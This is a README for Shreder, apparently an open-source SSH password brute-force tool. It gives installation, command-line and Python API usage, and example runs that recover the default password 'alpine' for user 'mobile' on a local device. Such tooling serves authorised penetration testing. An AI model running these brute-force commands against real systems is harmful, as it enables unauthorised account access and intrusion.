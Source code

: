 # Shreder

Shreder is a powerful multi-threaded SSH protocol password bruteforce tool.

## Features

* Very fast password guessing, just one password in `0.1` second.
* Optimized for big password lists, Shreder tries 1000 passwords in `1` minute and `40` seconds.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/Shreder
```

## Basic usage

To use Shreder just type `shreder` in your terminal.

```
usage: shreder [-h] [-p PORT] [-u USERNAME] [-l LIST] target

Shreder is a powerful multi-threaded SSH protocol password bruteforce tool.

positional arguments:
  target

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  SSH port.
  -u USERNAME, --username USERNAME
                        SSH username.
  -l LIST, --list LIST  Passwords list.
```

### Examples

Let's bruteforce my device just for fun.

```shell
shreder 192.168.2.109 -u mobile -l passwords.txt
```

**output:**

```shell
[*] Processing... \ | Passwords tried: 8/8
[*] Cooling down after process...
[+] Password has been found!
[i] Password: alpine
[i] Time elapsed: 1.0647449493408203
```

## Shreder API

Shreder also has their own Python API that can be invoked by importing Shreder to your code:

```python
from shreder import Shreder
```

### Basic functions

There are all Shreder basic functions that can be used to bruteforce specified device.

* `connect(host, port, username, password)` - Connect specified defice by network address.
* `brute(host, port, username, dictionary)` - Bruteforce device with list of passwords.

### Examples

```python
from shreder import Shreder

shreder = Shreder()

password = shreder.brute(192.168.2.109, 22, 'mobile', 'passwords.txt')
print(f"Password: {password}")
```

**output:**

```shell
[*] Processing... \ | Passwords tried: 8/8
[*] Cooling down after process...
Password: alpine
```
